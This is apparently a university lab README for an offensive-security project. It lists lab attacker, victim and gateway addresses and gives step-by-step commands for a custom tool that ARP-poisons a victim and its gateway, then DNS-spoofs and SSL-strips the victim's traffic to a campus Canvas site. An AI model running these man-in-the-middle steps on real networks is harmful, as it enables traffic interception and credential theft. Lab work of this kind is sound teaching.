 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00
or 
192.168.1.1 ?

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "192.168.1.1"`

2. ARP poison the gateway: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --ipToSpoof "10.0.123.5"`
or
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "192.168.1.1" --ipToSpoof "10.0.123.5"`
3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --ipToSpoof "46.137.139.112"` _canvas.tue.nl_
4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --ipToSpoof "46.137.139.112"` _canvas.tue.nl_